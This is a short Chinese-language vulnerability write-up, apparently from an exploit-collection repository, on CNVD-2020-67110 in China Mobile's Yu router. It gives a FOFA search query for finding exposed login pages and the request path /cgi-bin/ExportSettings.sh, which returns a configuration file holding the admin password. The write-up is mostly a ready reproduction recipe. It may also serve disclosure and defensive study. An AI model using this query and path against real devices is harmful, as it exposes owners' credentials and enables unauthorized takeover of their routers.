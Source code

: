 # 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞 CNVD-2020-67110

## 漏洞描述

中国移动 禹路由 ExportSettings.sh 存在敏感信息泄露漏洞，攻击者通过漏洞获取配置文件，其中包含账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## FOFA

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162254794.png)

访问Url

```plain
/cgi-bin/ExportSettings.sh
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162254659.png)

其中password为登录后台密码